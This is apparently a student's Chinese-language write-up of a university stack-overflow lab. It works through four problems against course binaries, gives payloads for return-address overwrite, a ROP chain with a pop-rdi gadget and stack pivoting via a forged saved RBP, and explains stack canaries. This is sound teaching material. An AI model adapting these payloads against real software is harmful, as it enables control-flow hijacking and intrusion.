



# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：

这个攻击主要利用了 `func` 函数中 `strcpy` 的漏洞。我们需要通过栈溢出覆盖 `func` 函数的 **返回地址 (Return Address)**。

首先寻找目标地址，查看 `problem1.asm`，可以看到有一个名为 `func1` 的函数，它没有被 `main` 调用，但里面调用了 `puts` 并打印字符串（地址 `0x402004`），这正是想要的输出函数。
而目标函数 `func1` 的地址是： `0x00401216`。
接着在 `func` (`0x401232`) 中，有以下关键指令：
```
401242: mov    -0x18(%rbp),%rdx      ; 源字符串地址
401246: lea    -0x8(%rbp),%rax       ; 目标缓冲区地址 (rbp - 8)
401250: call   4010b0 <strcpy@plt>   ; 调用 strcpy
```
程序定义了一个局部缓冲区，起始地址在 `%rbp - 0x8`（即 `rbp` 往下 8 个字节）。
它使用 `strcpy` 将你的输入复制到这个缓冲区。`strcpy` 不检查长度，直到遇到 Null Byte (`\0`) 才会停止。
之后计算栈的偏移量
从 Buffer 的起始位置 (`%rbp - 8`) 到 Return Address (`%rbp + 8`) 的距离是：16
这意味着，需要先填满这 16 个字节，接下来的内容就会溢出并覆盖到Return Address上。
最后构造 Payload 
前 16 字节：
我们需要 16 个字节来填满 Buffer 和 Saved %rbp。
*后覆盖：
我们将返回地址覆盖为 `func1` 的地址 `0x401216`。
`0x0000000000401216` 在内存中应该写为：`16 12 40 00 00 00 00 00`。
但是，因为 `strcpy` 遇到 `00` 就会停止并在末尾补一个 `00`，所以我们只需要输入 `16 12 40` 即可。`strcpy` 复制完这三个字节后，会自动在后面补上 `00`，从而形成 `16 12 40 00`。
原来的返回地址高位本身就是 `00 00 00 00`，所以我们只需要修改低位即可。

- **解决方案**：python3 -c "import sys; sys.stdout.buffer.write(b'\x30'*16 + b'\x16\x12\x40\x00')" > payload.txt
- **结果**：


### Problem 2:
- **分析**：

这个攻击主要利用了 `func` 函数中 `memcpy` 的漏洞以及ROP技术。我们需要通过栈溢出构造一个调用链，先设置寄存器参数，再跳转到目标函数。

首先寻找目标地址，查看 `problem2.asm`，可以看到有一个名为 `func2` 的函数，它没有被 `main` 调用。
观察 `func2` (`0x401216`) 的逻辑：

```assembly
401225:	81 7d fc f8 03 00 00 	cmpl   $0x3f8,-0x4(%rbp)
40122c:	74 1e                	je     40124c <func2+0x36>
```

它比较传入的参数（`%edi`/`%rdi`）是否等于 `0x3f8` (十进制 1016)。如果相等，才会执行打印成功信息的代码。
因此，目标函数 `func2` 的地址是 `0x401216`，且必须满足参数 `%rdi = 0x3f8`。

接着在 `func` (`0x401290`) 中，有以下关键指令：

```assembly
4012a4:	lea    -0x8(%rbp),%rax      ; 目标缓冲区地址 (rbp - 8)
4012a8:	ba 38 00 00 00       	    ; 长度 0x38 (56字节)
4012b3:	e8 38 fe ff ff       	    ; call memcpy
```

程序定义了一个局部缓冲区，起始地址在 `%rbp - 0x8`。它使用 `memcpy` 写入了 `0x38` (56) 个字节。
这里使用的是 `memcpy` 而不是 `strcpy`，这意味着它不会被`\0`截断，可以放心写入包含 `00` 的完整地址。

之后计算栈的偏移量
从 Buffer 的起始位置 (`%rbp - 8`) 到 Return Address (`%rbp + 8`) 的距离是：16 字节。
这意味着，需要先填满这 16 个字节，接下来的内容就会溢出并覆盖到 Return Address 上。

由于题目提示 Nxenabled 且我们需要传递参数，我们不能直接跳转到 `func2`，必须先利用 Gadget 将参数 `0x3f8` 放入 `%rdi` 寄存器。
在 `problem2.asm` 中，我们可以找到一个名为 `pop_rdi` 的函数，其结尾部分正好是我们需要的指令：

```assembly
4012c7:	5f                   	pop    %rdi
4012c8:	c3                   	ret
```

这个地址 `0x4012c7` 就是我们的 Gadget 地址。

最后构造 Payload
Payload 由四部分组成：

1. Padding (16字节)：填满 Buffer 和 Saved RBP。
2. Gadget Address (8字节)：覆盖原返回地址，跳转到 `pop rdi; ret` (`0x4012c7`)。
3. Argument (8字节)：`pop rdi` 指令会从栈顶弹出一个值放入 `%rdi`，这里我们要放入 `0x3f8`。
4. Target Address (8字节)：Gadget 执行 `ret` 后，会跳转到这里，即 `func2` (`0x401216`)。

Hex 结构如下：

* Padding: `41` * 16 (即 'A'...)
* Gadget: `c7 12 40 00 00 00 00 00` (小端序的 0x4012c7)
* Arg 1: `f8 03 00 00 00 00 00 00` (小端序的 0x3f8)
* func2: `16 12 40 00 00 00 00 00` (小端序的 0x401216)
- 解决方案：

python3 -c "import sys; sys.stdout.buffer.write(b'A'*16 + b'\xc7\x12\x40\x00\x00\x00\x00\x00' + b'\xf8\x03\x00\x00\x00\x00\x00\x00' + b'\x16\x12\x40\x00\x00\x00\x00\x00')" > payload2.txt
- **结果**：


### Problem 3: 
- **分析**：

这个攻击利用了栈劫持技术。我们不仅控制了程序跳转到哪里，还控制了程序去哪里找局部变量。

在 `func` 中，`buffer` 在 `rbp - 0x20`（即 32 字节大小），但 `memcpy` 写入了 64 字节。这允许我们覆盖栈上的两个关键值：

* Saved RBP（偏移 32 字节处）
* Return Address（偏移 40 字节处）

`func1` (`0x401216`) 只有在满足以下条件时才会输出成功信息：

```assembly
401225: cmpl   $0x72,-0x44(%rbp)     ; 检查地址 [rbp - 0x44] 的值是否为 114
```

正常情况下，这个值是通过函数参数压栈传递的。但我们可以直接跳到这行指令 (`0x401225`)，此时程序会使用当前的寄存器 `%rbp` 来寻找数据。

接下来为什么要用 `0x7fffffffd914`？

需要欺骗 CPU，让它在执行 `cmpl` 指令时，认为数据就在那里。

我们把 `114` 写在了 Payload 的最开头，也就是 `buffer` 的起始地址 `0x7fffffffd8d0`。
CPU 会去 `rbp - 0x44` 的地址找数据。
这就建立了一个方程：
$$\text{目标地址} = \text{当前 RBP} - 0x44$$
$$0x7fffffffd8d0 = \text{New\_RBP} - 0x44$$
解得
$$\text{New\_RBP} = 0x7fffffffd914$$

最后
1. Leave 指令：执行 `pop %rbp`。此时栈上原本存旧 `rbp` 的位置已经被我们覆盖成了 `0x7fffffffd914`。所以，**`%rbp` 寄存器现在变成了 `0x7fffffffd914**`。
2. Ret 指令：弹出栈顶地址并跳转，程序跳到了 `0x401225`。
3. Cmp 指令：执行 `cmpl $0x72, -0x44(%rbp)`。
* 计算地址：`0x7fffffffd914 - 0x44 = 0x7fffffffd8d0`。
* 读取值：读取该地址的内容（正是我们写入的 `114`）。
* 结果：匹配成功，输出 flag。
- **解决方案**：
```
import struct

# 1. 你的栈地址 (由 GDB 得到)
buffer_addr = 0x7fffffffd8d0

# 2. 计算 Fake RBP (欺骗 RBP)
# 逻辑：func1 检查 [rbp - 0x44] 是否等于 114
# 我们把 114 放在 buffer 的开头 (即 buffer_addr)
# 所以需要：New_RBP - 0x44 = buffer_addr
# 推导：New_RBP = buffer_addr + 0x44
fake_rbp = buffer_addr + 0x44 
# 计算结果应该是 0x7fffffffd914

# 3. 构造 Payload (总共 48 字节)

# Part A: 在 buffer 开头放入目标值 114 (0x72)
# 占据 8 字节
payload = struct.pack('<Q', 114)

# Part B: 填充 Padding
# buffer 大小是 32 字节，减去上面用掉的 8 字节，还剩 24 字节
payload += b'A' * 24

# Part C: 覆盖 Saved RBP (偏移 32 字节处)
# 这里填入我们计算好的 fake_rbp
payload += struct.pack('<Q', fake_rbp)

# Part D: 覆盖 Return Address (偏移 40 字节处)
# 跳过 func1 的开头，直接跳到比较指令处 (0x401225)
target_addr = 0x401225
payload += struct.pack('<Q', target_addr)

# 写入文件
with open('payload3.txt', 'wb') as f:
    f.write(payload)

print(f"Payload generated.")
print(f"Buffer Address used: {hex(buffer_addr)}")
print(f"Fake RBP calculated: {hex(fake_rbp)}")
```

- **结果**：


### Problem 4: 
- **分析**：
分析 `problem4.asm` 中的 `func` 函数 (`0x135d`)。这个函数包含了判断逻辑。

`main` 函数在一个循环中调用 `scanf` 读取整数，并将其作为参数传递给 `func`。
在 `func` 函数的逻辑末尾，有这样一段汇编代码：
```assembly
13df:	83 7d f4 ff          	cmpl   $0xffffffff,-0xc(%rbp)  ; 比较 局部变量-0xc 是否等于 -1
13e3:	74 11                	je     13f6 <func+0x99>        ; 如果相等，跳转到 13f6
...
13f6:	b8 00 00 00 00       	mov    $0x0,%eax
13fb:	e8 1c ff ff ff       	call   131c <func1>            ; 调用 func1 (成功函数)
1400:	bf 00 00 00 00       	mov    $0x0,%edi
1405:	e8 f6 fc ff ff       	call   1100 <exit@plt>         ; 退出程序

```
`-0xc(%rbp)` 存储的正是你传入的参数（在 `138b` 行从 `-0x18(%rbp)` 复制而来）。
代码明确检查：**如果你输入的数是 `-1` (即十六进制的 `0xffffffff`)，它就会直接调用 `func1**`，打印出成功信息。这就是所谓的“后门”或逻辑漏洞。

Canary 保护机制解析


**Canary 保护** 是一种用于检测栈溢出的安全机制。

* **原理**：在函数开始时，从一个安全的地方取出一个随机值（Canary），放入栈中，位置通常在 **局部变量** 和 **返回地址 ** 之间。
* **检测**：在函数结束准备返回（`ret`）之前，程序会检查栈上的这个值是否被修改。
* **效果**：如果发生栈溢出，攻击者通常会从局部变量向高地址覆盖，必然会先覆盖掉 Canary，然后再覆盖返回地址。程序检测到 Canary 变了，就知道发生了溢出，从而主动崩溃（调用 `__stack_chk_fail`），阻止攻击者劫持控制流。

**在 `problem4.asm` 中的体现：**

你可以看到 `main` 和 `func` 函数的 **开头** 和 **结尾** 都有 Canary 的相关代码。以 `func` 函数为例：

**A. 设置 Canary:**

```assembly
136c:	64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax        ; [取值] 从 FS 段寄存器偏移 0x28 处取出随机的 Canary 值
1373:	00 00 
1375:	48 89 45 f8          	mov    %rax,-0x8(%rbp)      ; [落栈] 将 Canary 值存入栈中 (%rbp - 8) 的位置
```

`%fs:0x28` 指向线程局部存储中的主 Canary 值。
它被放置在 `rbp-0x8`，这是一个非常关键的位置，紧贴着 Saved RBP 和 Return Address。

**B. 检查 Canary:**

```assembly
140a:	48 8b 45 f8          	mov    -0x8(%rbp),%rax      ; [取栈] 从栈中 (%rbp - 8) 取出 Canary 值
140e:	64 48 2b 04 25 28 00 	sub    %fs:0x28,%rax        ; [比对] 用它减去 FS 段寄存器里的原始 Canary 值
1415:	00 00 
1417:	74 05                	je     141e <func+0xc1>     ; [判断] 如果结果为 0 (相等)，跳转到正常退出
1419:	e8 b2 fc ff ff       	call   10d0 <__stack_chk_fail@plt> ; [报错] 如果不相等，调用报错函数，终止程序
141e:	c9                   	leave  
141f:	c3                   	ret    
```

如果发生缓冲区溢出，`-0x8(%rbp)` 处的值极大概率会被覆盖修改，导致 `sub` 指令结果不为 0，程序直接 crash，从而保护了返回地址不被利用。

- **解决方案**：
juvan
no
-1
- **结果**：


## 思考与总结

不得不说我校的ics真是难


